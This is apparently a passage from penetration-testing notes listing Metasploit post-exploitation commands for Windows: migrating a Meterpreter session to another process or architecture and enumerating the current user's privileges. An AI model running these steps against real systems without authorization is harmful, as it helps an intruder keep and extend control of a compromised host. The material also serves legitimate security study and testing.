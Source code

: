 ```bash
search migrate
use post/windows/manage/migrate
info
# Description:
#   This module will migrate a Meterpreter session from one process to 
#   another. A given process PID to migrate to or the module can spawn 
#   one and migrate to that newly spawned process.
set SESSION 1
run

# It will not migrate if it's already a x64 process  
```

- Migration e.g. from x86 service

```bash
use post/windows/manage/archmigrate
set SESSION 1
run
```

![Metasploit - post/windows/manage/archmigrate](.gitbook/assets/image-20230419192913558.png)

- Enumerate current user privileges

```bash
search win_privs
use post/windows/gather/win_privs
set SESSION 1
run
```
